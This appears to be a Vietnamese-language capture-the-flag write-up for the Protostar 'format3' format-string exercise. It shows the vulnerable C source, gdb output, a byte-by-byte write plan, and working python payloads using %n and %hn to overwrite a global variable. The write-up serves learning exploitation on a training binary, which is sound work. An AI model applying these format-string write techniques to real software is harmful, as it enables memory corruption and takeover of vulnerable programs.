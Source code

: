 # FORMAT THREE

## About

This level advances from format2 and shows how to write more than 1 or 2 bytes of memory to the process. This also teaches you to carefully control what data is being written to the process memory.

This level is at /opt/protostar/bin/format3

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

## Solutions

`FORMAT THREE` tiếp tục là một thử thách được nâng cao từ `FORMAT TWO`, chúng ta vẫn cần ghi một giá trị được kiểm soát vào vị trí ta mong muốn - ở đây vẫn là biến toàn cục `target` để nhận được `"you have modified the target :)"` nhưng thay vì là 1 số decimal thì giá trị cần ghi là `0x01025544`.

Khá phức tạp, ta có `0x01025544 = 16930116` là một giá trị decimal thực sự lớn và nếu vẫn tiếp tục dùng cách ghi đè của `FORMAT TWO` thì ta sẽ không nhận được điều mình cần là `target == 0x01025544` vì số lượng ký tự ghi vào quá lớn.

Thay vào đó ta sẽ ghi lần lượt 4 lần vào từng byte tăng dần bắt đầu từ địa chỉ của biến `target` và với các giá trị là `44` `55` `02` `01` - đây là `[little edian]`.

Địa chỉ `target = 0x80496f4`.

```
root@protostar:/opt/protostar/bin# gdb -q ./format3
Reading symbols from /opt/protostar/bin/format3...done.
(gdb) p target
$1 = 0
(gdb) p &target
$2 = (int *) 0x80496f4
(gdb)
```

Thực hiện quét stack ta có chuỗi đầu vào sẽ được định dạng từ parameter thứ 12.

Tôi sẽ không trình bày chi tiết cách tôi ghi từng byte, thay vào đó bạn có thể đọc từ cuốn sách tôi để ở `Documents`.

```
                        1      2
hex     | \x44 | \x55 | \x02 | \x01 |
decimal |  68  |  85  |  258 |  513 |
Đã có   |  16  |  68  |  85  |  258 |
Cần     |  52  |  17  |  173 |  255 |
para    |  12  |  13  |  14  |  15  |
Addr:
0x80496xx| f4  |  f5  |  f6  |  f7  |

```

Tiến hành khai thác:

```
root@protostar:/opt/protostar/bin# python -c 'print "\xf4\x96\x04\x08\xf5\x96\x04\x08\xf6\x96\x04\x08\xf7\x96\x04\x08" + "%52x" + "%12$n" + "%17x" + "%13$n" + "%173x" + "%14$n" + "%255x" + "%15$n"' | ./format3
                                                   0         bffffac0                                                                                                                                                                     b7fd7ff4                                                                                                                                                                                                                                                              0
you have modified the target :)
```

Cách điền `hn-hn`, bạn có thể tự viết nó khi đã nắm vững hơn cách overwrite everywhere bằng format strings.

```
python -c 'print "\xf4\x96\x04\x08\xf6\x96\x04\x08" + "%" + str(0x5544 - 8) + "x%12$hn" + "%" + str(0x10102 - 0x5544) + "x%13$hn"' | ./format3
```


## Documents

<https://en.wikipedia.org/wiki/Printf_format_string>

<https://stackoverflow.com/questions/3401156/what-is-the-use-of-the-n-format-specifier-in-c>

Bạn có thể đọc phần Format String của cuốn này:
<https://whitehat.vn/attachments/nghe-thuat-tan-dung-loi-phan-mem-pdf.1430/>



